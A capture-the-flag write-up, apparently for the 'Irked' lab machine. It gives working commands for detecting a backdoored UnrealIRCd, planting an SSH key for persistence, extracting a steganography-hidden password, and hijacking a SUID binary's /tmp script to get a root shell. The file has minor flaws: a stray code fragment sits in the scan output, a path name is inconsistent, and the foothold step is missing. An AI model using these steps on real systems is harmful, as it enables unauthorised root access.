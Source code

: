 # Writeup Irked

## Scan

```bash
$ nmap -sS -T4 -p- -vv $target

PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 63
80/tcp    open  http       syn-ack ttl 63
111/tcp   open  rpcbind    syn-ack ttl 63
6697/tcp  open  ircs-u     syn-ack ttl 63
8067/tcp  open  infi-async syn-ack ttl 63
46561/tcp open  unknown    syn-ack ttl 63
65534/tcp open  unknown    syn-ack ttl 63
.endOf('month').toDate();
```

## Enumeration

It seems there is an IRC service running on port 6697.
```bash
$ weechat
/server add irked 10.10.10.117
/connect irked
│16:12:31   irked  -- | This server was created Mon May 14 2018 at 13:12:50 EDT
│16:12:31   irked  -- | irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
```

Let's look for irc scripts.
```bash
$ locate "*.nse" | grep irc
$ nmap --script irc-unrealircd-backdoor -p6697 $target
PORT     STATE SERVICE REASON
6697/tcp open  ircs-u  syn-ack ttl 63
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
```
There is an empty `~ircd/.ssh` folder and `PublicKeyAuth` is enabled.  
We can generate our own public key pair to gain persistent ssh access.
```bash
# on remote
$ cat /etc/ssh/sshd_config
...
PubkeyAuthentication yes
```
```bash
# attacker
$ mkdir -p ~/.ssh/
$ ssh-keygen -t rsa
$ vim config
Host 10.10.10.117
    HostName 10.10.10.117
	User ircd
	IdentityFile ~/.ssh/htb
$ chmod 644 config
# send htb.pub to remote machine
$ cat htb.pub >> authorized_keys
$ chmod 600 authorized_keys
# attacker
$ ssh -vvF ~/.ssh/config $target
```

## Privilege Escalation
There is a world readable file in `/home/djmardov` and also a hint in `.bash_history` that LSB steganography was used on the image.  
```bash
$ find / -xdev -not \( -user $USER -or -user 0 \) \
  -not \( -group $USER -or -group 0 \) -perm -o+r \
  -exec ls -lad \{} \; 2>/dev/null

-rw-r--r-- 1 djmardov djmardov 52 May 16  2018 /home/djmardov/Documents/.backup
$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

```bash
# attacker
$ apt install steghide
$ steghide extract -sf irked.jpg -xf out
$ file out
out.jpg: ASCII text
$ cat out
Kab6h+m+bbp2J:HG
$ sshpass -p 'Kab6h+m+bbp2J:HG' ssh djmardov@$target
```

There is a binary with SUID bit set that we can reverse:
```bash
$ find / -perm -4000 -user 0 -type f -exec ls -latr \{} \; 2>/dev/null
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

### Static Binary Analysis

The binary is dynamically linked to libc:
```bash
$ for i in {1..3}; do ldd viewuser | grep libc; done
libc.so.6 => /lib32/libc.so.6 (0xf7d4e000)
libc.so.6 => /lib32/libc.so.6 (0xf7cd2000)
libc.so.6 => /lib32/libc.so.6 (0xf7cfb000)
```

We can see 2 calls to `put` followed by a call to `setuid` and `system`.  
```bash
$ objdump -M intel -d viewuser| grep main.: -A40
0000057d <main>:
 57d:   8d 4c 24 04             lea    ecx,[esp+0x4]
 581:   83 e4 f0                and    esp,0xfffffff0
 584:   ff 71 fc                push   DWORD PTR [ecx-0x4]
 ...
  5d2:   e8 49 fe ff ff          call   420 <setuid@plt>
 5d7:   83 c4 10                add    esp,0x10
 5da:   83 ec 0c                sub    esp,0xc
 5dd:   8d 83 f1 e6 ff ff       lea    eax,[ebx-0x190f]
 5e3:   50                      push   eax
 5e4:   e8 17 fe ff ff          call   400 <system@plt>
```

The argument (`const char*`) for system call `system` get's pushed onto the stack.  
`ebx` is used to reference the address and gets assigned here:
```
 58c:   e8 ef fe ff ff          call   480 <__x86.get_pc_thunk.bx>
 591:   81 c3 6f 1a 00 00       add    ebx,0x1a6f
```
This call is used in position independent code (PIC) on x86 and makes `ebx` directly point into our global offset table (GOT). So what is the argument of `system`? With all that information we can calculate the address that gets pushed on the stack. The address directly points into the .rodata section and points to the string `/tmp/userlist`.
```bash
$ python -c 'print hex(0x591+0x1a6f-0x190f)'
0x6f1
$ readelf -S viewuser
...
[16] .rodata           PROGBITS        00000678 000678 000088 00   A  0   0  4
...
$ hexdump -C -s 0x6f1 -n 16 viewuser
000006f1  2f 74 6d 70 2f 6c 69 73  74 75 73 65 72 73 00 01  |/tmp/listusers..|
```
Alternative way to view `.rodata` section:
```bash
$ objdump -dj .rodata viewuser
viewuser:     file format elf32-i386

Disassembly of section .rodata:

00000678 <_fp_hw>:
 678:	03 00 00 00                                         ....

0000067c <_IO_stdin_used>:
 67c:	01 00 02 00 54 68 69 73 20 61 70 70 6c 69 63 61     ....This applica
 68c:	74 69 6f 6e 20 69 73 20 62 65 69 6e 67 20 64 65     tion is being de
 69c:	76 6c 65 6f 70 65 64 20 74 6f 20 73 65 74 20 61     vleoped to set a
 6ac:	6e 64 20 74 65 73 74 20 75 73 65 72 20 70 65 72     nd test user per
 6bc:	6d 69 73 73 69 6f 6e 73 00 00 00 00 49 74 20 69     missions....It i
 6cc:	73 20 73 74 69 6c 6c 20 62 65 69 6e 67 20 61 63     s still being ac
 6dc:	74 69 76 65 6c 79 20 64 65 76 65 6c 6f 70 65 64     tively developed
 6ec:	00 77 68 6f 00 2f 74 6d 70 2f 6c 69 73 74 75 73     .who./tmp/listus
 6fc:	65 72 73 00                                         ers.
```
So obviously the file `/tmp/userlist` gets executed as root an the machine.

### Get root shell
```bash
djmardov@irked:/tmp$ echo -e '#!/bin/bash\n/bin/bash' > listusers
djmardov@irked:/tmp$ chmod 777 listusers
djmardov@irked:/tmp$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-03-30 16:41 (:0)
djmardov pts/2        2019-03-30 18:22 (10.10.14.22)
djmardov pts/3        2019-03-30 18:44 (10.10.14.20)
root@irked:/tmp# whoami
root
```

**References:**
* https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html  
* https://thoughts.theden.sh/post/elfmagic/  
* https://www.suse.com/c/making-sense-hexdump/  
